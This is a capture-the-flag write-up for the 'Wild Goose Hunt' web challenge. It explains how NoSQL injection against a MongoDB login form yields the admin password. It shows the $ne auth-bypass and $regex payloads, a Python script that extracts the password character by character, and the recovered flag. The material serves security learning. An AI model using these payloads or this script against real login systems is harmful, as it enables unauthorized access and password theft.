 # Wild Goose Hunt

The description for this challenge is as follows:

*Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?
This challenge will raise 43 euros for a good cause.*

This is a web challenge that was rated at two of four stars, though it was definitely one of the easiest two star web challenges. 

**TL;DR Solution:** Use NoSQL injection to derive the admin's password character by character.

When we initally open the page, we see a straightforward login page.

![Wild_Goose_Initial_Login](screenshots/Wild_Goose_Initial_Login.png)

For this challenge, we were given all of the sourcecode for the page. In this case, the most file was entrypoint.sh, which showed use that MongoDB (also called Mongoose, so relevant to the title) was used to create an entry in a users table. The username is admin, and the password is the flag:
```
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh
mkdir /tmp/mongodb
mongod --noauth --dbpath /tmp/mongodb/ &
sleep 2
mongo heros --eval "db.createCollection('users')"
mongo heros --eval 'db.users.insert( { username: "admin", password: "CHTB{f4k3_fl4g_f0r_t3st1ng}"} )'
/usr/bin/supervisord -c /etc/supervisord.conf
```
This immediately made me think of trying some sort of NoSQL injection. I had never done this before, but the following page gave me some good ideas:  https://www.acunetix.com/blog/web-security-zone/nosql-injections/

Basically, I started by trying the payload:
```
username[$eq]=admin&password[$ne]=foo
```
This is designed to let me if the username is admin and the password is **not** equal to foo.I just sent it in by editing my request within firefox:
![Goose_Initial_Payload](screenshots/Goose_Initial_Payload.png)

And the result is that I appear to have logged in successfully, but there is no flag in sight. It looks like I will have to figure out how to actually derive the password.
![Goose_Initial_Result](screenshots/Goose_Initial_Result.png)

Eventually, I realized that instead of using $ne with the password, I could do pattern matching with $regex. I came up with a simple payload designed to work if the password string matches the format of CHTB\{.*\}, the standard flag format with a wildcard in the middle, and the curly brackets escaped to avoid causing an error. The payload is here:
```
username[$eq]=admin&password[$regex]=CHTB\{.*\}
```
And it worked!
![Goose_Regex_Test](screenshots/Goose_Regex_Test.png)

I ended up creating a python script to break the password character by character by exploiting this result with regex. The basic idea is to start at the beginning of the password with a single character value and work through possible characters until you get the successful login result. Then you move onto the next character until you hit the end. Note that you can derive the login url to use with the script by looking at the url to which requests are made for requests that were attempted logins. I also ended up escaping or removing several printable characters because they were effectively acting as code in an unintended manner. The script I used is below:

```
import requests
import string
import json

print(string.printable)

url = "http://138.68.177.159:30114/api/login"
soFar = ""
use = list(string.printable)
use.sort()
use.remove("'")
use.remove("\"")
use.remove("\\")
use.remove("+")
use.append("\\+")
use.remove(".")
use.append("\\.")
use.remove("*")
use.append("\\*")
use.remove("?")
use.append("\\?")
use.remove("|")
use.append("\\|")

use = use[5:]
print(use)

while True:
    for k in use:
        #k = ''
        details = {"username[$eq]": "admin", "password[$regex]": "CHTB\{%s%s.*\}"%\
                (soFar, k)}
        print(details)
        response = requests.post(url, data = details)
        print(response.text)
        if "Failed" not in response.text:
            print("FOUND ONE!", k)
            soFar = soFar + k
            print(soFar)

```
The result was a slowly growing flag in the terminal iterating over each character before hitting a match and moving on. When I finally hit the password, my screen looked like this:

![Goose_Script_Result](screenshots/Goose_Script_Result.png)

The flag is CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}





